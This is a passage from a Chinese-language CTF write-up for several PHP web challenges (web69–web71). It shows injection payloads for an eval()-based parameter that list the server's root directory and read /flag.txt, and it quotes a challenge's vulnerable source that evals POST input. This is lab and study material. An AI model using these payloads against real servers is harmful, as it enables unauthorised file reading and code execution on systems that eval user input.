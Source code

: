 ```
?c=echo implode(",",(scandir('/'))); 
?c=echo json_encode(scandir("/"));
```

读文件

```
?c=readgzfile('/flag.txt');
```



#### web70

![image-20241129132128259](assets/image-20241129132128259.png)

这题把error_reporting()和ini_set()禁用了

虽然不知道有什么用，不影响我用上一题的方法读flag

#### web71

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```
